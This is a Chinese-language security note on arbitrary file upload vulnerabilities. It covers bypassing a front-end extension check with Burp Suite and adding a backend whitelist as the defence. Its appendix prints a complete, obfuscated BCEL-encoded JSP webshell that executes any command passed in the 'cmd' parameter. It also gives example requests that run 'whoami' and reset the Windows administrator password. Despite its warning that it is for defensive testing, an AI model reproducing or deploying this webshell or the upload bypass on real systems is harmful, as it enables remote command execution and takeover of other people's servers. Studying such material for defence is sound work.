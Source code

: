 # 任意文件上传漏洞

一些上传接口对上传文件格式没有限制，或者只有前端限制

### API 工具直接上传

![image-20231123161245514](assets/image-20231123161245514.png)

### Burp Suite 拦截请求

`代理(Proxy) - 拦截(Intercept)`，进入拦截界面。

点击`打开浏览器`，访问目标网址。

将`jsp`文件修改为前端允许的格式，如`png`，打开`拦截开关`，上传这个 png 文件，请求被拦截

![image-20231123162610901](assets/image-20231123162610901.png)

将文件扩展名改回`jsp`，`点击放行(Forward)`，查看浏览器控制台，可以看到文件已经上传上去了。

# 防御措施

后台限制上传文件格式

yml

```yml
upload-allow-exts: png,jpg,jpeg,bmp,gif,doc,docx,xls,xlsx,ppt,pptx,wps,mp3,mp4
```

java

```java
@Value("${upload-allow-exts:}")
private String[] uploadAllowExts;
```

```java
String ext = FileUtil.getExt(originFileName);
if(!ArrayUtils.contains(uploadAllowExts, ext)) {
    return renderError("非法的文件格式");
}
```

> ```java
> /**
>  * 获取文件扩展名
>  *
>  * @param file 文件名或路径
>  * @return
>  */
> public static String getExt(String file) {
>     int i = file.lastIndexOf(".");
>     return (i >= 0 && file.length() > i + 1) ? file.substring(i + 1).toLowerCase() : "";
> }
> ```

# 附录

##### 一个 webshell

> [!WARNING]
>
> 仅可用于漏洞修复、攻击防御测试目的

```jsp
<%@ page import="com.sun.org.apache.bcel.internal.util.ClassLoader" %>
<html>
<body>
<h2>BCEL字节码的JSP WebShell</h2>
<%
    String bcelCode = "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$85U$5bW$hU$U$fe$86$ML$Y$86B$93R$$Z$bcQ$hn$j$ad$b7Z$w$da$mT4$5c$84$W$a4x$9bL$Oa$e8d$sN$s$I$de$aa$fe$86$fe$87$beZ$97$86$$q$f9$e8$83$8f$fe$M$7f$83$cb$fa$9dI$I$89$84$e5$ca$ca$3es$f6$de$b3$f7$b7$bf$bd$cf$99$3f$fe$f9$e57$A$_$e3$7b$jC$98$d6$f0$a6$8e6$b9$be$a5$e1$86$8e4f$a4x$5b$c7$y$e6t$b4$e3$a6$O$V$efH1$_$j$df$8d$e3$3d$b9f$3a$d1$8b$F$N$8b$3a$96$b0$i$c7$fb$3aV$b0$aa$e3$WnK$b1$a6c$j$ltb$Dw$e2$d8$d4$f1$n$3e$d2$f0$b1$82X$mJ$K$S$99$jk$d72$5d$cb$cb$9b$aba$e0x$f9$v$F$j$d7$j$cf$J$a7$V$f4$a5N$9aG$d7$U$a83$7eN$u$e8$c98$9eX$y$X$b2$o$b8ee$5d$n$c3$f9$b6$e5$aeY$81$p$f75$a5$gn$3bL$a5g$d2$b6pgw$j$97$vbv$n$a7$a0$bb$U$c5L$97$j7$t$C$F$83$t$d2$d5L$7c$e3L$b6$bc$b5$r$C$91$5b$RV$e4$3cPuv$7c3$ddd$a1$af$ea$S$Y$c3$af$86$96$7dw$c1$wF$40$c8$90$86O$c82$J$s$9a$d9$3d$5b$UC$c7$f7J$g$3eU$Q$P$fdjF$F$e7R$a3$adXQ$L$96$e3$v8$9f$da$3c$85$U$x$c8$b3$ccd$L$b3$82$$$c7$x$96Cn$85U$m$afu$e8$f3$c7jz$b5g$f7C$d9$95$b6$cd4$e3$d9$R$c9$fa$aa_$Ol1$e7H$w$bb$8f$u$bc$y$D$Y$b8$AKA$ff$v$a4$Rkk$86Ht$8b$fcU$9b$86$ac$B$h9$D$C$5b$g$f2$G$b6$e1$c8D$3bR$dc5$e0$e2$8a$81$C$c8$84$a2$hxQ$ee$9e$c0$93$q$f0$I$9a$G$df$40$R$9f$b1eu$b4$b6k$95$c8s$60$a0$84PC$d9$c0$$$3e7$b0$87$7d$N_$Y$f8$S_i$f8$da$c07$b8$c7$40$p$p$e9$99$d9$cc$c8$88$86o$N$7c$87a$F$bd$c7$V$$ew$84$j6$a9$8e$fa$96$ac$X$b5To$$$t$z$r$9bs$f6$d8$7d$a5$ec$85NA2$9b$Xa$7d$d3$d7$d4$f4$9aZv$5d$ec$J$5b$c1$a5V$t$a1A$b5$i$f8$b6$u$95$a6$9a2$d5$94$q$82$99$e6$h$H$a0$ff$u$db$89$R$YH$b54$c8$g$92$c7$a6$da$a4Km$9c$f6$5c$s$9a$f7$O$abX$U$k$cf$d5$e4$ff$a0$fd$ef$d9$ea96$cd$c8NU$RG$8f$Z$bf61M$fc4$98$f8z_K$D$BK$82E$v$9a$df$h$a5$a3$daGO$Hw$82$8dd$L$b5$82N$w$j$b7z$b9$b0$bd$f3$ec$92$q$81$e7$t$b5$99$96$db$x$b6_0Ke$cf$f4$83$bci$V$z$7b$5b$98Y$ce$a2$e9x$a1$I$3c$cb5$a3$81$dc$e2$992o$87$8e$eb$84$fbdOx$d5$T$d7$cf$uwZ$5e$B$8dC$b7_$K$F$b1$c4$fcr$d8x$a0$97$e9$da$C$7f$83Z$81V$94$3b$d7$c33$bc$b9$87$f8$JP$f8$e7$n$a2$8c$f1$f9$C$86y$ad$3f$c5$dd$9f$e8$e0$bd$P$dc$i$3b$80r$88$b6$8d$D$c4$W$O$a1n$i$a2$7d$e3$R$3a$c6$x$d0$w$88$l$a0$f3$A$fa$e2d$F$5d$h$d7$d4$df$91$98$YT$x0$S$dd$U$eb$P$k$ff56Q$c1$99$9f$d1$f30J$f04$e504$ca$$$7eJ$M$fe$baq$R$3d0$Jf$g$J$cc$nI$60$f2$bb$U$a5$c6$b3x$O$88$9eF$IQ$a1$ff$U$fd$9f$t$c4$8b$b4$5dB$8a1$t$I$7f$94V$VcQ$vm$8fiT5$8ck$98$d00$a9$e12$f07$G$b8c$g$d0M$c1$L$fc$f3$f6$a0$94$95$9a$5c$r$L$edc$3f$a1$e7$H$3e$b4E8$3b$oe$7f$84$c7$a8$3a$d4$f0t$e2$r$o$ac$d2t$9f$IT$aeW$T$bd$V$9cM$q$wHfH$cd$b9_$e3$L$e3$y$bdo$7dB$7d$84$f3$8b$3f$a2$bf$c6ab$80$cc$90$$$83$bcT0$f8$b0$9eo$88$Z$r$fe$$$d6$92$60$p$G$c8$d40s$bcF$ab$c40V$cd$83W$f0j$c4$df$q$zW$89$xA$3e$5e$c75F$Zf$8c$v$be$jk$w$f4z$94$e1$8d$7f$BP$cbmH$f2$H$A$A";
    response.getOutputStream().write(String.valueOf(new ClassLoader().loadClass(bcelCode).getConstructor(String.class).newInstance(request.getParameter("cmd")).toString()).getBytes());
%>
</body>
</html>
```

使用参数传递 shell 命令：

`http://127.0.0.1:8080/1.jsp?cmd=whoami`

`http://127.0.0.1:8080/1.jsp?cmd=net%20user%20administrator%20password`

> [!WARNING]
>
> web 容器运行在`root`/`Administrator`下意味着 webshell 拥有管理员权限，一旦存在安全漏洞，将会导致严重后果。

> [!TIP]
>
> Spring Boot 默认限制了 jsp 的访问，访问 jsp 将 404 或作为文件下载。